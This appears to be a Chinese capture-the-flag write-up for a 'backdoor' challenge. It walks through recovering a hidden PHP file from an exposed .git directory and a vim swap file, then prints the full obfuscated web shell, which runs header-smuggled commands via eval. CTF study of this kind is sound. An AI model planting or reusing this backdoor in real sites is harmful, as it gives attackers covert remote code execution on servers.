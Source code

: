 ## backdoor（i春秋）

1.访问/.git，响应码是403不是404，用githack下载.git，回滚到上一个commit,提示flag在b4ckdo0r.php

2.访问后提示你能耗到我的源码吗，访问/.b4ckdo0r.php.swo下载源码，注意b4ckdo0r前面的`.`，

3.下载后用恢复该文件，`vim -r b4ckdo0r.php.swo`，将内容拷贝到新建文件中，可以看到很多变量，但是就是一些字符串，打印$L变量，得到源码

```php
<?php
$kh="4f7f";
$kf="28d7";
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}

$r=$_SERVER;
$rr=@$r["HTTP_REFERER"];
$ra=@$r["HTTP_ACCEPT_LANGUAGE"];
if($rr&&$ra){
    $u=parse_url($rr);
    parse_str($u["query"],$q);
    $q=array_values($q);
    preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);
    if($q&&$m){
        @session_start();
        $s=&$_SESSION;
        $ss="substr";
        $sl="strtolower";
        $i=$m[1][0].$m[1][1];
        $h=$sl($ss(md5($i.$kh),0,3));
        $f=$sl($ss(md5($i.$kf),0,3));
        $p="";
        for($z=1;$z<count($m[1]);$z++)
            $p.=$q[$m[2][$z]];
        if(strpos($p,$h)===0){
            $s[$i]="";$p=$ss($p,3);
        }
        if(array_key_exists($i,$s)){
            $s[$i].=$p;$e=strpos($s[$i],$f);
            if($e){
                $k=$kh.$kf;
                ob_start();
                @eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));
                
                $o=ob_get_contents();
                ob_end_clean();
                $d=base64_encode(x(gzcompress($o),$k));
                print("<$k>$d</$k>");
                @session_destroy();
            }
        }
    }
}
?>
```